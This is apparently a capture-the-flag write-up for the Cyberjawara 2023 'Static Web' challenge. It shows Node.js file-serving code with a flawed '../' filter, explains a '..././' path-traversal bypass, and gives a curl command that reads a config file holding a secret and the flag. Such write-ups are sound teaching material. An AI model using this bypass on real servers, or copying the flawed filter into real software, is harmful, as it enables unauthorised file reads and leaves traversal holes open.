 ```yaml
---
comments: true
title: Cyberjawara 2023 Web Writeup
date: 2023-12-04T00:00:00.000+07:00
category:
- ctf
tags:
- cj2023
private: false

---
```


### Static Web - 300pts - 63 solves

Given web application that serves static file by defining custom routes and using `fs.readFile` to read the content. 

```
if (req.url.startsWith('/static/')) {
    const urlPath = req.url.replace(/\.\.\//g, '')
    const filePath = path.join(__dirname, urlPath);
    fs.readFile(filePath, (err, data) => {
        if (err) {
            res.writeHead(404);
            res.end("Error: File not found");
        } else {
            res.writeHead(200);
            res.end(data);
        }
    });
} 
```

Known that there could be possibility to path traversal there is a protection using `const urlPath = req.url.replace(/\.\.\//g, '')` but this regex is could be bypassed using `..././flag.txt`

```
curl --path-as-is "https://static-web.ctf.cyberjawara.id/static/..././config.js"
const secret = 'wWij1i23ejasdsdjvno2rnj123123';
const flag = 'CJ2023{1st_warmup_and_m1c_ch3ck}';

module.exports = {secret, flag}%    
```

![Static web flag](/uploads/static-web-flag.png)



